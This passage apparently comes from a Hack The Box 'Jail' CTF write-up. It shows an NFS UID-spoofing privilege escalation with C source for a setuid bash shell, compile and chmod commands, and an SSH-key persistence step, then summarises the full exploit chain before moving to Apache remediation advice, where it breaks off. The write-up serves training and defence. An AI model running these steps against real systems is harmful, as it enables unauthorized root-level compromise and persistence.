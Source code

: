 
### 12. Alternative Privilege Escalation to `adm` (Unintended)
- **Technique**: Exploit NFS share permissions to create a setuid binary for `adm` (UID 3).
- **Steps**:
  - Verify NFS share `/var/nfs_share` is mounted and writable by `frank` (UID 1000).
  - Create a directory with full permissions: `mkdir /var/nfs_share/ipsec; chmod 777 /var/nfs_share/ipsec`.
  - Change local user UID to 3 (matching `adm`): Edit `/etc/passwd` and `/etc/group`.
  - Create a setuid binary:
    ```c
    int main(void) {
        setuid(3);
        setgid(3);
        execl("/bin/bash", "bash", NULL);
    }
    ```
  - Compile: `gcc suid.c -o suid`, set permissions: `chmod 6755 suid`, and copy to `/var/nfs_share/ipsec`.
  - Execute on the target to gain a shell as `adm` (effective UID 3).
  - Use the setuid binary to append an SSH key to `/var/adm/.ssh/authorized_keys` non-destructively: `echo <pubkey> | ./suid -a /var/adm/.ssh/authorized_keys`.

### Summary of Techniques
- **Enumeration**: Nmap, Gobuster, manual web browsing, `showmount`.
- **Vulnerability Exploitation**: Buffer overflow in `jail.c`, NFS user ID spoofing, SELinux command injection, `sudo` misconfiguration, RAR password cracking, RSA private key recovery.
- **Key Tools**: Nmap, Gobuster, GDB, Pwntools, John the Ripper, Hashcat, `opt-ssh-ctf-tool`, GCC.
- **Privilege Escalation Path**: `nobody` (via buffer overflow) → `frank` (via SELinux escape) → `adm` (via `sudo vim` or NFS setuid) → `root` (via RAR cracking and SSH key).

This sequence reflects the chained exploits required to fully compromise the "Jail" machine, including both intended and unintended methods for privilege escalation.

## Security Gaps and Remediation

Below is a detailed list of the vulnerabilities (gaps) identified in the services and systems of the "Jail" machine from Hack The Box, as described in the provided data. For each vulnerability, I will specify whether it can be fixed with a source code fix, a configuration fix, or both, along with recommended remediation steps. The vulnerabilities are organized by the affected service or system component.

### 1. Apache Web Server (Port 80)
**Vulnerability**: Directory exposure of sensitive files
- **Description**: The `/jailuser/dev/` directory is publicly accessible, exposing sensitive files (`jail.c`, `compile.sh`, `jail` binary), which allowed attackers to analyze source code and identify vulnerabilities.
- **Fix Type**: Configuration fix
- **Remediation**:
  - **Restrict Directory Access**: Configure Apache to deny access to sensitive directories. Add the following to the Apache configuration (`httpd.conf` or equivalent):
    ```apache
    <Directory "/var/www/html/jailuser/dev">
        Order Deny,Allow
        Deny from all
    </Directory>
    ```
  - **Use Authentication**: Protect sensitive directories with HTTP authentication:
    ```apache
    <Directory "/var/www/html/jailuser/dev">
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /etc/apache2/.htpasswd